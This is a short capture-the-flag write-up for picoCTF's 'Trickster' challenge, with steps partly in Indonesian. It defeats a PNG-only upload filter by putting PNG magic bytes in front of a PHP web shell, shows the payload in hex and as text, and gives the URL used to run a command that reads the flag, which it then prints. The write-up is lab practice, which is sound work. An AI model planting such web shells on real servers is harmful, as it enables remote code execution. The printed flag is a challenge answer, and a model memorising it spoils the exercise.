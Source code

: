 <h1>Trickster</h1>
<h3>Description</h3>
<label>I found a web app that can help process images: PNG images only!
Try it <a href='http://atlas.picoctf.net:54613/'>here!</a></label>
<h3>Solution</h3>
<label>Buat file header PNG + Syntax PHP</label>

<pre>
89 50 4E 47 0D 0A 1A 0A 3C 3F 70 68 70 20 73 79 73 74 65 6D 28 24 5F 47 45 54 5B 27 63 6D 64 27 5D 29 3B 3F 3E
</pre>

```console
�PNG

<?php system($_GET['cmd']);?>
```
<label>Simpan file ke payload.png.php, lalu upload file, jika sukses</label>
<pre>
http://atlas.picoctf.net:53568/uploads/payload.png.php?cmd=cat%20../GNTDOMBWGIZDE.txt
</pre>
<h3>Flag</h3>
<pre>
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}
</pre>
